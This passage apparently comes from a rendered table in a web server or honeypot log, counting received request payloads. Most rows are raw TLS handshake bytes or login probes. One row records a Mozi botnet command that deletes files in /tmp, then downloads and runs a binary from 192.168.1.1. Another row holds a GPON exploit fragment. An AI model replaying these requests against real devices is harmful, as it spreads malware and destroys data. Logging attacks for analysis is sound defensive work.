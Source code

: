 | 105 |                    24 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03Rn\x93=I\xE6\xDAW\xB2\xE0\xD0\xDC\xF8\xE0\x90\x89\xE3\xBCO\xC9\x18\xC8L\xC2sUB\xED^\x0C\xC4\xEA\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                               |
| 106 |                    24 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03V\x1D\xA4\x16\xF53N\xB0\xF6\xA6R=d\xBD\x95\x17K(\xC2\x1E\x5Cs\xE93\xFC\xF5Jh\xA0jB\x09\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                        |
| 107 |                    24 | GET /users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |
| 108 |                    24 | GET /users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
| 109 |                    23 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xF3\xA7\x03\xA1\xE3|\xF3\xA6\xDE\x1A6\x08`\xF0*\xC3M\xA5\x09\x0C\xA2\x8B\x18\xD6}\xE6\x08\xC2\xAA\xCBjJ\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                      |
| 110 |                    23 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03X\xA9p?'\x03\x033s\x14?\xA6A\xF9x\xE4bt\xC6\x5C2\x95\xF0O6\xF8\x9D\xBC\xF6c\x89G\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                              |
| 111 |                    23 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                            |
| 112 |                    23 | \x16\x03\x01\x01\x17\x01\x00\x01\x13\x03\x03Dif\xCFh0vc\xF2V;s\x9F\x13\xAD\x9Ci;                                                                                                                                                                                                                                                                                                                                      |
| 113 |                    23 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03H\x90\xEB\x0C\x0E\x99\x94\x92%\xE8.ur\xC8\x8B\xBC\xBAt\x08\x8F\xE5\x7F\x01j\xBA\xE0\x10\xC7\xB5\xB5y\x9C\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                      |
| 114 |                    23 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x1B\xA6{\x14\xFB4\xB7\x9E6\xD5F\xA8\xA3F0e\x5CX\xE10\x1D\x86\xF0\xF0\x14\xCE\xBAH\xB2\xB2\xD8h\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                               |
| 115 |                    23 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xB0>\x19,SL\x87\x83\xB7\x19\xCE\x09\xB0*\x16o\x85nkc\x85\xA3\xCB\x8C\xB8\x12\xB0\x94                                                                                                                                                                                                                                                                                           |
| 116 |                    23 | /tmp/gpon80&ipv=0                                                                                                                                                                                                                                                                                                                                                                                                     |
| 117 |                    23 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x91\xACK5\x80(}\xAC\xAC\x05\xE9\xAA\xFDX\xA5\x89\xEC\x0B\xB8bT\x8B\xCDC^\xB4\xA7\x97\xE1X\x91\x22 \xC6^\xCA\x0C\xC67\x07\xA0\xF2\xE8\xB8\x96\x88Gh\xEB=\x9E\x942\xBF\xD2g\x06p\xF7\xBC\x07\xF0\x93\xFA\x82\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                  |